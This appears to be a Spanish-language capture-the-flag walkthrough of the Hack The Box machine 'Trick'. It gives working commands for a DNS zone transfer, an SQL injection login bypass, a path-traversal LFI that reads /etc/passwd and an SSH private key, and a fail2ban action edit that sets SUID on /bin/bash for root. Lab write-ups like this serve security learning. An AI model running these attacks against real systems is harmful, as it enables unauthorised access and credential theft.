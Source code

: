 
--------
- Puertos abiertos TCP : 22, 25, 53, 80
- Maquina Easy 
-  #dns 
-----


- Entramos en la IP pero no hay nada interesante

- Fuzzeamos dominios subdominios y por extensiones pero no encontramos nada

- Al tener el puerto 53 abierto hacemos un escaneo de [[DNS]] con ``dnslookup`` vemos el common name tricks.htb, lo guardamos en el ``/etc/hosts/``

![[tricks.png]]

- Seguimos enumerando el puerto 53, con #dig [[DNS]] lanzamos un ataque de transferencia de zona y encontramos un subdominio, lo añadimos al ``/etc/hosts``

````
dig 10.10.11.166 trick.htb axfr
`````

![[igjreiigjer.png]]

- Entramos al subdominio y nos encontramos un login al cual accedemos al panel de administrador con una inyeccion SQL basica

````
'or 1=1-- -
`````


![[bgfbfbgfbfg 1.png]]

![[rgergloihl.png]]

- Antes de seguir enumerando el panel de administracion vamos a averiguar la contraseña del usuario administrator

- Nos vamos a la pestaña Users , hacemos click en Action - Edit y nos aparece las password, para verla en texto claro hacemos un Ctrl + Shift + I Hacemos click encima de las password,  borramos la palabra password del campo type y nos aparecera en texto claro


![[Pasted image 20230720204420.png]]

- Despues de probar diferentes injecciones en la url sin conseguir nada vemos que podemos injectarle un filtro para que nos represente en base64 la informacion, apuntamos al home y nos aparece una cadena en base64

![[Pasted image 20230720211103.png]]

- Decodeamos esta cadena y vemos un archivo de una base de datos que puede contener credenciales

![[Pasted image 20230720210946.png]]

- Apuntamos a dicho archivo con el filtro de base64 y obtenemos otra cadena en base64

![[Pasted image 20230720211304.png]]

- Decodeamos la cadena y vemos un usuario y una contraseña

![[Pasted image 20230720211503.png]]

- Enumeramos subdominios con wfuzz y encontramos marketing, lo añadimos al ``/etc/hosts``

````
wfuzz -c -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: preprod-FUZZ.trick.htb" http://trick.htb
`````

- Entramos en la url y pobamos un LFI con un path traversal y podemos leer el /etc/passwd, podemos hacer un cntrl + u para verlo mejor

- Vemos un usuario michael

![[Pasted image 20230720221749.png]]

- Enumeramos si el usuario es valido conectandonos al puerto 25 con [[Telnet]] para ver si el usuario michael es valido y nos conecta por lo tanto es valido

- Tambien podemos enumeralo con la herramienta ``smtp-user-enum`` pero tarda demasiado

![[Pasted image 20230720222433.png]]

- Para enumerar mejor la maquina nos la traemos a nuestro pc con [[Curl]] y listamos los puertos abiertos internamente en la maquina

````
curl -s -X GET "http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//proc/net/tcp"
`````

![[Pasted image 20230720225425.png]]


- Pasamos los puertos de [[Hexadecimal]] a texto claro

````
sort -u | while read port; do echo "[+] Puerto $port -> $((16#$port))"; done
`````

![[Pasted image 20230720225738.png]]

- Probamos a listar la clave privada de ssh del usuario michael y encontramos una id_rsa, le damos permisos 600 y ganamos acceso al sistema

````
curl -s -X GET "http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa"
`````

![[Pasted image 20230720233411.png]]

````
ssh -i id_rsa michael@10.10.11.166
`````

- Buscamos la flag de user.txt

# Escalada de privilegios


- Hacemos un ``sudo -l`` y vemos que tengo permiso para reiniciar el servicio de ``fail2ban`` 

![[Pasted image 20230721001814.png]]

- Configuramos la regla de ip_tables de fail2ban para que cuando nos banee le de permiso de suid a la bash

- Como no tenemos permisos de escritura en el archivo correspondiente cambiamos de nombre el archivo ``/etc/fail2ban/action.d/iptables-multiport.conf`` a ``/etc/fail2ban/action.d/iptables-multiport.bak`` 

- Ahora hacemos una copia del archivo ``/etc/fail2ban/action.d/iptables-multiport.bak`` y lo llamamos como el archivo original ``/etc/fail2ban/action.d/iptables-multiport.conf`` y asi ya tendriamos permisos de escritura para modificarlo

- En el archivo que hemos creado buscamos la siguiente linea y substitumos su contenido para cuando me banee como para cuando me desbanee le de permisos suid a la bash 

````
chmod u+s /bin/bash
`````

![[Pasted image 20230721003243.png]]

- Reiniciamos el servicio y monitorizamos cada segundo la ``/bin/bash`` para ver cuando cambia a suid

````
sudo /etc/init.d/fail2ban restart
`````

````
watch -n 1 ls -l /bin/bash
`````

- Nos auttentticamos varias veces por ssh para que nos banee y nos atorgaria permisos a las bash

- 10 vecesseguidas

````
seq 1 10 | xargs -P 50 -I{} sshpass -p '123' ssh michael@10.10.11.166
`````

- De 1 en 1

````
sshpass -p '1234' ssh michael@10.10.11.166
`````

- Nos lanzamos la bash con superusuario 

````
bash -p
`````

- Buscamos la flag de root.txt


